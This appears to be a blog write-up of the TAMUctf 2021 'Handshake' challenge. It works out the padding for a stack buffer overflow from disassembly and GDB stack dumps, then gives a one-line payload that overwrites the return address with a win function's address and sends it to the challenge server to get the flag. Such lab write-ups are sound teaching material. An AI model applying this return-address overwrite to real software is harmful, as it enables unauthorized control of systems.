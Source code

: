 ```yaml
---
title: "TAMUctf 2021 Handshake Solution"
slug: "handshake-writeup"
date: "2021-04-26 11:39:00.000000"
author_name: "Javantea"
author_email: "jvoss@altsci.com"
draft: false
toc: false
images:
---
```


TAMUctf 2021
[Handshake](https://ctftime.org/task/15794) - 150 points

>    Attack this binary and get the flag!
>    [handshake](http://tamuctf.com/static-files/handshake)
>    `openssl s_client -connect tamuctf.com:443 -servername handshake -quiet`

Handshake is a standard i686 Linux binary with NX but no PIE. There's a stack buffer overflow which is easy enough to exploit. Without PIE, ROP is available. Because Handshake provides a `win` function, it makes sense that is the way to get the flag without getting full code execution with a ROP chain.

I used GDB to find the correct offset, besides that I could have just exploited the binary straight without using GDB at all. The problem I had trying to find the right amount of padding was that I couldn't quite count the stack size. Let's do it now.

```asm
 80492cb: PUSH EBP
 80492cc: MOV EBP, ESP ; EBP = ESP; 
 80492ce: PUSH EBX
 80492cf: SUB ESP, 0x24 ; ESP -= 0x24; 
```

4 bytes for PUSH EBP. 4 bytes for PUSH EBX. 0x24 bytes for SUB ESP, 0x24. How many is that? 0x2c. So we need 44 bytes of padding. That's it. That's the whole thing.

```
(gdb) run <hs_a.txt 
Starting program: /home/angr/handshake <hs_a.txt
Whats the secret handshake? 
That isn't correct!  You aren't supposed to be here. 

Program received signal SIGSEGV, Segmentation fault.
0x0804a020 in ?? ()

...

(gdb) b *0x804931d
Breakpoint 1 at 0x804931d

(gdb) run
Starting program: /home/angr/handshake <hs_a.txt
Whats the secret handshake? 
...
Breakpoint 1, 0x0804931d in vuln ()
(gdb) si
0x08049333 in main ()
(gdb) i r esp
esp            0xffffd5a0          0xffffd5a0
(gdb) x/10wx $esp
0xffffd5a0:     0x00000001      0x080490b0      0x00000000      0xf7dc1905
0xffffd5b0:     0x00000001      0xffffd654      0xffffd65c      0xffffd5e4
0xffffd5c0:     0xffffd5f4      0xf7ffdb78
(gdb) x/10wx $esp-4
0xffffd59c:     0x08049333      0x00000001      0x080490b0      0x00000000
0xffffd5ac:     0xf7dc1905      0x00000001      0xffffd654      0xffffd65c
0xffffd5bc:     0xffffd5e4      0xffffd5f4
(gdb) x/10wx $esp-8
0xffffd598:     0xffffd500      0x08049333      0x00000001      0x080490b0
0xffffd5a8:     0x00000000      0xf7dc1905      0x00000001      0xffffd654
0xffffd5b8:     0xffffd65c      0xffffd5e4
(gdb) x/10wx $esp-12
0xffffd594:     0x080491c2      0xffffd500      0x08049333      0x00000001
0xffffd5a4:     0x080490b0      0x00000000      0xf7dc1905      0x00000001
0xffffd5b4:     0xffffd654      0xffffd65c
(gdb) x/10wx $esp-16
0xffffd590:     0x41414141      0x080491c2      0xffffd500      0x08049333
0xffffd5a0:     0x00000001      0x080490b0      0x00000000      0xf7dc1905
0xffffd5b0:     0x00000001      0xffffd654

```

```sh
echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc2\x91\x04\x08' |./handshake 
Whats the secret handshake? 
Correct! this is a flag and stuff =]

Segmentation fault


(echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc2\x91\x04\x08'; cat) |openssl s_client -connect tamuctf.com:443 -servername handshake -quiet
depth=0 CN = hulkcybr1
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = hulkcybr1
verify return:1
Whats the secret handshake? 
Correct! gigem{r37urn_c0n7r0l1337}

```

The flag is `gigem{r37urn_c0n7r0l1337}`

